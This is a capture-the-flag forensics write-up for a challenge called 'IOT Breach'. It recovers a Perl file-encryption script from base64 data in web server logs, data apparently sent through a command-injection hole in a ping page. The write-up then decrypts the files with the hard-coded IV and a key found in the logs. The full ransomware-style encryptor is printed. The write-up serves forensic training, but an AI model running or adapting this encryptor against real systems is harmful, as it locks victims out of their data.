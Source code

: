 # IOT Breach

**Category:** *forensics*

## Description

Please help me! A hacker has attacked my network and now I can't see my files anymore :( Can you please help me to recover them?

## Solution

The disk image (`.img`) was provided. The image contained all files including **root** directory. There is a directory with encrypted kitten pictures:

![Encrypted files](../resources/WHY2025%20CTF/iotbreach1.png)

I searched through all the files and found several interesting things: in the file `./var/log/lighttpd/access.log` I found many logs with strange data. It looked like base64 data that was sent through a web-access ping application with command injection vulnerability:

![Web server logs with base64 decoded data](../resources/WHY2025%20CTF/iotbreach2.png)

I decoded all the transferred data and recovered the following Perl script:

```perl
use strict;
use warnings;
use Crypt::Mode::CBC;
use File::Find;

# Check if password is provided
die "Usage: $0 <password>
" unless @ARGV == 1;
my $password = $ARGV[0];

# Define encryption parameters
my $cipher = Crypt::Mode::CBC->new("AES");

# Get all files in the current directory
find(sub {
    return if -d $_;  # Skip directories
    return if $_ =~ /.pl$/;
    encrypt_file($_);
}, ".");

sub encrypt_file {
    my ($file) = @_;

    # Read file contents
    open my $fh, '<', $file or die "Could not open '$file' for reading: $!";
    binmode $fh;
    my $data = do { local $/; <$fh> };
    close $fh;

    # Encrypt the data
    my $encrypted = $cipher->encrypt($data, $password, "R4ND0MivR4ND0Miv");

    # Write encrypted data back to file
    open my $fh_out, '>', "$file.enc" or die "Could not open '$file.enc' for writing: $!";
    binmode $fh_out;
    print $fh_out $encrypted;
    close $fh_out;

    print "Encrypted $file -> $file.enc
";
}

print "Encryption complete.
";

```

I found that pictures were encrypted using the `AES` algorithm with the Initialization Vector `R4ND0MivR4ND0Miv`. Also there was an encryption key in the web server logs:

![The encryption key](../resources/WHY2025%20CTF/iotbreach3_0.png)
![URL decoded encryption key](../resources/WHY2025%20CTF/iotbreach3_1.png)

Using the CyberChief, I recovered encrypted pictures and one of the pictures contained the flag:

![The flag](../resources/WHY2025%20CTF/iotbreach4.jpg)